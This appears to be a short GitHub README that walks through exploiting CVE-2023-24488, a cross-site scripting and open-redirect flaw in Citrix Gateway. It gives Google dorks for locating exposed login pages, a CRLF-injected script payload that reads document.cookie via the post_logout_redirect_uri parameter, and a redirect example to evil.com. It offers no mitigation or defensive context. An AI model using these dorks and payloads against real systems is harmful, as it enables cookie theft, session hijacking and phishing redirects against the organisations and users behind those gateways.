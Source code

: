 # CVE-2023–24488 Citrix Gateway XSS & Open Redirection 

## Description
Cross site scripting vulnerability in Citrix ADC and Citrix Gateway in allows and attacker to perform cross site scripting

### How to exploit
1. Google dork :
<html>
<b>
<i>inurl:/LogonPoint/tmindex.html</i>
<br></br>
<i>inurl:/vpn/index.html</i> 
</b>
</html>

2. Navigate to the endpoint
<b>Example:</b> https://example.com/logon/LogonPoint/tmindex.html

3. Modify the URL by adding the payload and hit enter

<b>Example:</b> https://example.com/oauth/idp/logout?post_logout_redirect_uri=%0d%0a%0d%0a%3Cscript%3Ealert(document.cookie)%3C/script%3E

4. Once XSS is confirmed, you can check for open-redirection too, just by adding the target domain in the “post_logout_redirect_uri” parameter.

<b>Example:</b> https://example.com/oauth/idp/logout?post_logout_redirect_uri=https://evil.com
